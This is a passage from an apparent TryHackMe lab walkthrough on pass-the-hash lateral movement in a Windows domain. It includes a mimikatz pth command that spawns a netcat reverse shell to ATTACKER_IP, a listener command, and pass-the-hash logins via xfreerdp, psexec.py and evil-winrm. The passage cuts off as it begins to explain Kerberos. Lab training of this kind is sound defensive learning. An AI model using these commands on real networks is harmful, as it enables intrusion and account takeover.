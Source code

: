 We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:

```shell-session
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Notice we used `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work.&#x20;

This would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

To receive the reverse shell, we should run a reverse listener on our AttackBox:

**Kali**

```
nc -lvp 5555
```

Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

Passing the Hash Using Linux:

If you have access to a linux box (like your AttackBox), several tools have built-in support to perform PtH using different protocols. Depending on which services are available to you, you can do the following:

_Connect to RDP using PtH:_

```shell-session
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

_Connect via psexec using PtH:_

```shell-session
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

Note: Only the linux version of psexec support PtH.

_Connect to WinRM using PtH:_

```shell-session
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

### Kerberos Authentication

Let's have a quick look at how Kerberos authentication works on Windows networks:

1.  The user sends his username and a timestamp encrypted using a key derived from his password to the **Key Distribution Center (KDC)**, a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network.

